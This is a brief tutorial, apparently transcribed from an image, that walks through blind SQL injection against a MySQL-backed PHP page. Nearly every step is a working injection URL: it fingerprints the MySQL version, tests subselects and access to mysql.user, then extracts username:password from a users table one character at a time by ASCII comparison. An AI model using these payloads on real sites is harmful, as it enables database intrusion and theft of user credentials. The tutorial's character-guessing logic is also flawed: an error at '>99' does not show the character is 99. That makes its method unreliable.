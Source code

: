 1. we use substring in blind injection to get MySQL Version

http://www.website.com/articles.php?id=3 and substring(@@version,1,1)=4

2. we should replace the 4 with 5 if the version is 5

http://www.website.com/articles.php?id=3 and substring(@@version,1,1)=5

3. and now if the function select do not work we should use subselect and we should testing if it work

# Testing if subselect works :

http://www.website.com/articles.php?id=3 and (select 1)=1 ( if the page load normaly the subselect works good)

1. and now we have to see if we have access to mysql.user

http://www.website.com/articles.php?id=3 and (select 1 from mysql.user limit 0,1)=1 (if it load normaly we have access to mysql.user)

2. now, we can checking table and column names

# Checking table and column names :

`http://www.website.com/articles.php?id=3 and (select 1 from users limit 0,1)=1`

1. if the page load normaly and no errors the table users exists

  a. now we need column name

  b. `http://www.website.com/articles.php?id=3 and (select substring(concat(1,password),1,1) from users limit 0,1)=1`

2. the page load normaly and no errors the column password exists

  a. now we have the table and the column , yeah, we can exploiting the vunlnerability now

  b. `http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>80`

3. the page load normaly and no errors,so we need to change the 80 for having an error

  a. `http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>90`

  b. `no errors ! we continu`

4. `http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>99`

  a. Yeah!! an error

  b. the character is char(99). we use the ascii converter and we know that char(99) is letter 'c'

5. to test the second character we change ,1,1 to ,2,1

  a. `http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),2,1))>99`
